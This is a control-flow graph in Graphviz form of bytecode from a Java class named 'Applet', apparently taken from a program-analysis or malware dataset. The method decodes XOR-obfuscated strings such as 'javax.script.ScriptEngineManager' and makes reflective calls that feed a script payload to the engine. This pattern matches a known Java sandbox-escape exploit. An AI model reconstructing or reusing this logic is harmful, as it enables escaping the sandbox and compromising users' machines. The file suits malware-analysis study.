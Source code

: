 digraph "" {
    "r0 := @this: Applet"
    "push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq(<\t6\u000b+>1\u001c6\u0015:6>\u0015>\u001c:\t\""
    "r0 := @this: Applet"->"push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq(<\t6\u000b+>1\u001c6\u0015:6>\u0015>\u001c:\t\"";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"
    "push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq(<\t6\u000b+>1\u001c6\u0015:6>\u0015>\u001c:\t\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "push 0"
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "newarray"->"push 0";
    "push 0"->"newarray";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "newarray"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "store.r $r21"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r21";
    "store.r $r21"->"push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq(<\t6\u000b+>1\u001c6\u0015:6>\u0015>\u001c:\t\"";
    "push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq(<\t6\u000b+>1\u001c6\u0015:6>\u0015>\u001c:\t\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "load.r $r21"
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"load.r $r21";
    "push \"\u001c:\u000f\u001a\u00158\u00121\u001e\u001d\u0002\u0011\u001a2\u001e\""
    "load.r $r21"->"push \"\u001c:\u000f\u001a\u00158\u00121\u001e\u001d\u0002\u0011\u001a2\u001e\"";
    "push \"\u001c:\u000f\u001a\u00158\u00121\u001e\u001d\u0002\u0011\u001a2\u001e\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "push 1"
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"5\u0008\""
    "push 0"->"push \"5\u0008\"";
    "push \"5\u0008\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"arraywrite.r";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "store.r $r17"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r17";
    "push \"\u0011>\r>\u0003q\u0008<\t6\u000b+U\f\u0018-\u0012/\u000f\u001a\u00158\u00121\u001e\""
    "store.r $r17"->"push \"\u0011>\r>\u0003q\u0008<\t6\u000b+U\f\u0018-\u0012/\u000f\u001a\u00158\u00121\u001e\"";
    "push \"\u0011>\r>\u0003q\u0008<\t6\u000b+U\f\u0018-\u0012/\u000f\u001a\u00158\u00121\u001e\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "load.r $r17"
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"load.r $r17";
    "push \":\r>\u0017\""
    "load.r $r17"->"push \":\r>\u0017\"";
    "push \":\r>\u0017\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"9\u000e1\u0018+\u00120\u0015\u007f\u000f0(+\t6\u00158S0R$\u0012\u007fF\u007fKd\u000f7\u0012,U+\u0014\f\u000f-\u00121\u001c\u007fF\u007f\u001d*\u0015<\u000f6\u00141Sv\u00006\u001dw[6[bF\u007fK\u007fR+\t&\u00005\u001a)\u001aq\u0017>\u00158U\f\u0002,\u000f:\u0016q\u0008:\u000f\f\u001e<\u000e-\u0012+\u0002\u0012\u001a1\u001a8\u001e-S1\u000e3\u0017v@0U+\u0014\f\u000f-\u00121\u001cwRd\u0006\u007f\u0018>\u000f<\u0013w[:[v\u0000\\\"\u0012\u007fF\u007fJd\t:\u000f*\t1[x\\d\u0006d\u001e\u007fF\u007f\u0015:\f\u007f>-\t0\twRd\u001eq\u0016:\u0008,\u001a8\u001e\u007fF\u007f\u000f7\u0012,@-\u001e+\u000e-\u0015\u007f\u001ed\u0006\""
    "push 0"->"push \"9\u000e1\u0018+\u00120\u0015\u007f\u000f0(+\t6\u00158S0R$\u0012\u007fF\u007fKd\u000f7\u0012,U+\u0014\f\u000f-\u00121\u001c\u007fF\u007f\u001d*\u0015<\u000f6\u00141Sv\u00006\u001dw[6[bF\u007fK\u007fR+\t&\u00005\u001a)\u001aq\u0017>\u00158U\f\u0002,\u000f:\u0016q\u0008:\u000f\f\u001e<\u000e-\u0012+\u0002\u0012\u001a1\u001a8\u001e-S1\u000e3\u0017v@0U+\u0014\f\u000f-\u00121\u001cwRd\u0006\u007f\u0018>\u000f<\u0013w[:[v\u0000\\\"\u0012\u007fF\u007fJd\t:\u000f*\t1[x\\d\u0006d\u001e\u007fF\u007f\u0015:\f\u007f>-\t0\twRd\u001eq\u0016:\u0008,\u001a8\u001e\u007fF\u007f\u000f7\u0012,@-\u001e+\u000e-\u0015\u007f\u001ed\u0006\"";
    "push \"9\u000e1\u0018+\u00120\u0015\u007f\u000f0(+\t6\u00158S0R$\u0012\u007fF\u007fKd\u000f7\u0012,U+\u0014\f\u000f-\u00121\u001c\u007fF\u007f\u001d*\u0015<\u000f6\u00141Sv\u00006\u001dw[6[bF\u007fK\u007fR+\t&\u00005\u001a)\u001aq\u0017>\u00158U\f\u0002,\u000f:\u0016q\u0008:\u000f\f\u001e<\u000e-\u0012+\u0002\u0012\u001a1\u001a8\u001e-S1\u000e3\u0017v@0U+\u0014\f\u000f-\u00121\u001cwRd\u0006\u007f\u0018>\u000f<\u0013w[:[v\u0000\\\"\u0012\u007fF\u007fJd\t:\u000f*\t1[x\\d\u0006d\u001e\u007fF\u007f\u0015:\f\u007f>-\t0\twRd\u001eq\u0016:\u0008,\u001a8\u001e\u007fF\u007f\u000f7\u0012,@-\u001e+\u000e-\u0015\u007f\u001ed\u0006\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "pop"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r $r21";
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"push 0";
    "push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq21\r0\u0018>\u00193\u001e\""
    "push 0"->"push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq21\r0\u0018>\u00193\u001e\"";
    "push \"5\u001a)\u001a\'U,\u0018-\u0012/\u000fq21\r0\u0018>\u00193\u001e\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"load.r $r17";
    "push \"6\u0015)\u00144\u001e\u0019\u000e1\u0018+\u00120\u0015\""
    "load.r $r17"->"push \"6\u0015)\u00144\u001e\u0019\u000e1\u0018+\u00120\u0015\"";
    "push \"6\u0015)\u00144\u001e\u0019\u000e1\u0018+\u00120\u0015\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "push 2"
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r $r17";
    "store.r $r17"->"load.r $r17";
    "load.r $r17"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"push 1";
    "push class \"[Ljava/lang/Object;\""
    "push 1"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 2";
    "push 2"->"newarray";
    "store.r $r18"
    "newarray"->"store.r $r18";
    "load.r $r18"
    "store.r $r18"->"load.r $r18";
    "load.r $r18"->"push 0";
    "push \"+\u0014\f\u000f-\u00121\u001c\""
    "push 0"->"push \"+\u0014\f\u000f-\u00121\u001c\"";
    "push \"+\u0014\f\u000f-\u00121\u001c\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 1";
    "push 1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "load.r r0"
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"load.r $r18";
    "load.r $r18"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"arraywrite.r";
    "push \"\u0011>\r>\u0003q\u0008(\u00121\u001cq1\u0013\u0012,\u000f\""
    "arraywrite.r"->"push \"\u0011>\r>\u0003q\u0008(\u00121\u001cq1\u0013\u0012,\u000f\"";
    "push \"\u0011>\r>\u0003q\u0008(\u00121\u001cq1\u0013\u0012,\u000f\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r21";
    "load.r $r21"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r21";
    "push \"5\u001a)\u001aq\u001a/\u000b3\u001e+U\u001e\u000b/\u0017:\u000f\""
    "store.r $r21"->"push \"5\u001a)\u001aq\u001a/\u000b3\u001e+U\u001e\u000b/\u0017:\u000f\"";
    "push \"5\u001a)\u001aq\u001a/\u000b3\u001e+U\u001e\u000b/\u0017:\u000f\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"load.r r0";
    "push \"\u001a;\u001f\""
    "load.r r0"->"push \"\u001a;\u001f\"";
    "push \"\u001a;\u001f\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"5\u001a)\u001aq\u001a(\u000fq80\u0016/\u00141\u001e1\u000f\""
    "push 0"->"push \"5\u001a)\u001aq\u001a(\u000fq80\u0016/\u00141\u001e1\u000f\"";
    "push \"5\u001a)\u001aq\u001a(\u000fq80\u0016/\u00141\u001e1\u000f\""->"staticinvoke <Applet: java.lang.String c(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <Applet: java.lang.String c(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r21";
    "load.r $r21"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "return"
    "pop"->"return";
    "store.r r0"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r r0";
    "staticget <Applet: java.lang.Boolean a>"
    "store.r r0"->"staticget <Applet: java.lang.Boolean a>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "staticget <Applet: java.lang.Boolean a>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "ifeq return"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq return";
    "ifeq return"->"load.r r0";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"->"return";
}
